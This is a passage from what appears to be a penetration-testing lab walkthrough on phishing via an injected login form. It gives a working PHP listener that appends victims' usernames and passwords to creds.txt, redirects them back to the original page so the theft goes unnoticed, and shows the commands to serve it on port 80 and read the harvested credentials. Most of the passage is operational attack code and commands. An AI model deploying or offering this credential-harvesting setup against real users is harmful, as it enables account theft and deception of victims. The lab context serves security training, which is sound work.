 This confirms the data was submitted to our listener.

> ⚠️ **Note**: Netcat is simple and won’t handle HTTP responses, so the browser will show an error after submission.

---

### Optional: PHP Listener

To make the attack more seamless, we can run a PHP server that logs the credentials and then redirects the victim back to the original image viewer.

#### Create the PHP Script

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
  $file = fopen("creds.txt", "a+");
  fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
  header("Location: http://SERVER_IP/phishing/index.php");
  fclose($file);
  exit();
}
?>
```

#### Deploy the PHP Listener

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
# write the PHP file as index.php
php -S 0.0.0.0:80
```

Once this server is running, the victim will be redirected back to the image viewer as if nothing happened.

---

### Verifying the Credentials

To check if the credentials were captured, we simply view the `creds.txt` file:

```bash
cat creds.txt
```

Expected output:

```
Username: test | Password: test
```

---

### Final Notes
